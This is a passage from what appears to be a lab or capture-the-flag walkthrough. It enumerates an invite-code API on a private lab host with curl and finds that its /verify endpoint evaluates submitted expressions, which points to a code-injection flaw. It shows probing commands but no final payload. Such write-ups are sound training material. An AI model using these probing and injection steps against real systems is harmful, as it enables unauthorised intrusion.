 The application on port 50000 seems to host an API used to generate invite codes.

```
kali@kali:~$ curl http://192.168.120.36:50000/
{'/generate', '/verify'}

kali@kali:~$ curl http://192.168.120.36:50000/generate
{'email@domain'}

kali@kali:~$ curl http://192.168.120.36:50000/verify
{'code'}
```

The application running on port 18000 requires an invite code to allow registration of an account.

To generate an invite code, we need to send a `POST /generate` request to the application running on port 50000. From the earlier response, we know that we need to include an email address.

```
kali@kali:~$ curl -X POST --data "email=test@testing" http://192.168.120.36:50000/generate
5a81d05b8969fd1f156969da357bcd7f9bf0430c90035f017c88f9b5249b3e9e
```

With this invite code, we can now register to the main application. However, this seems to be a dead end, since it doesn't seem like we can manipulate the application after we finally log in.

If we continue our enumeration on port 50000, we discover that the `verify` endpoint exhibits odd behavior:

```
kali@kali:~$ curl -X POST --data "code=code" http://192.168.120.36:50000/verify
code
```

```
kali@kali:~$ curl -X POST --data "code=5a81d05b8969fd1f156969da357bcd7f9bf0430c90035f017c88f9b5249b3e9e" http://192.168.120.36:50000/verify 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

```
kali@kali:~$  curl -X POST --data "code=2+2" http://192.168.120.36:50000/verify
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

It seems that the `verify` option doesn't actually verify the code. In addition, the application performs evaluation:

```
kali@kali:~$ curl -X POST --data "code=2*2" http://192.168.120.36:50000/verify
4
```
